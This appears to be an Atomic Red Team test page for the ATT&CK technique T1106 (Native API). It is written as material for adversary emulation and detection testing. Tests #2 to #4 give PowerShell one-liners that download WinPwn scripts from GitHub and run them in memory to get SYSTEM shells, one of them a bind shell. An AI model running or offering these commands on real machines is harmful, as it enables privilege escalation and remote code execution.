 # T1106 - Native API
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1106)
<blockquote>Adversaries may interact with the native OS application programming interface (API) to execute behaviors. Native APIs provide a controlled means of calling low-level OS services within the kernel, such as those involving hardware/devices, memory, and processes.(Citation: NT API Windows)(Citation: Linux Kernel API) These native APIs are leveraged by the OS during system boot (when other system components are not yet initialized) as well as carrying out tasks and requests during routine operations.

Native API functions (such as <code>NtCreateProcess</code>) may be directed invoked via system calls / syscalls, but these features are also often exposed to user-mode applications via interfaces and libraries. (Citation: OutFlank System Calls)(Citation: CyberBit System Calls)(Citation: MDSec System Calls) For example, functions such as the Windows API <code>CreateProcess()</code> or GNU <code>fork()</code> will allow programs and scripts to start other processes.(Citation: Microsoft CreateProcess)(Citation: GNU Fork) This may allow API callers to execute a binary, run a CLI command, load modules, etc. as thousands of similar API functions exist for various system operations.(Citation: Microsoft Win32)(Citation: LIBC)(Citation: GLIBC)

Higher level software frameworks, such as Microsoft .NET and macOS Cocoa, are also available to interact with native APIs. These frameworks typically provide language wrappers/abstractions to API functionalities and are designed for ease-of-use/portability of code.(Citation: Microsoft NET)(Citation: Apple Core Services)(Citation: MACOS Cocoa)(Citation: macOS Foundation)

Adversaries may abuse these OS API functions as a means of executing behaviors. Similar to [Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059), the native API and its hierarchy of interfaces provide mechanisms to interact with and utilize various components of a victimized system. While invoking API functions, adversaries may also attempt to bypass defensive tools (ex: unhooking monitored functions via [Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001)).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Execution through API - CreateProcess](#atomic-test-1---execution-through-api---createprocess)

- [Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using CreateProcess technique](#atomic-test-2---winpwn---get-system-shell---pop-system-shell-using-createprocess-technique)

- [Atomic Test #3 - WinPwn - Get SYSTEM shell - Bind System Shell using CreateProcess technique](#atomic-test-3---winpwn---get-system-shell---bind-system-shell-using-createprocess-technique)

- [Atomic Test #4 - WinPwn - Get SYSTEM shell - Pop System Shell using NamedPipe Impersonation technique](#atomic-test-4---winpwn---get-system-shell---pop-system-shell-using-namedpipe-impersonation-technique)


<br/>

## Atomic Test #1 - Execution through API - CreateProcess
Execute program by leveraging Win32 API's. By default, this will launch calc.exe from the command prompt.

**Supported Platforms:** Windows


**auto_generated_guid:** 99be2089-c52d-4a4a-b5c3-261ee42c8b62





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| source_file | Location of the CSharp source file to compile and execute | Path | PathToAtomicsFolder&#92;T1106&#92;src&#92;CreateProcess.cs|
| output_file | Location of the payload | Path | %tmp%&#92;T1106.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /out:"#{output_file}" /target:exe #{source_file}
%tmp%/T1106.exe
```






<br/>
<br/>

## Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using CreateProcess technique
Get SYSTEM shell - Pop System Shell using CreateProcess technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** ce4e76e6-de70-4392-9efe-b281fc2b4087






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/CreateProcess/Get-CreateProcessSystem.ps1')
```






<br/>
<br/>

## Atomic Test #3 - WinPwn - Get SYSTEM shell - Bind System Shell using CreateProcess technique
Get SYSTEM shell - Bind System Shell using CreateProcess technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7ec5b74e-8289-4ff2-a162-b6f286a33abd






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/CreateProcess/Get-CreateProcessSystemBind.ps1')
```






<br/>
<br/>

## Atomic Test #4 - WinPwn - Get SYSTEM shell - Pop System Shell using NamedPipe Impersonation technique
Get SYSTEM shell - Pop System Shell using NamedPipe Impersonation technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** e1f93a06-1649-4f07-89a8-f57279a7d60e






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/NamedPipe/NamedPipeSystem.ps1')
```






<br/>
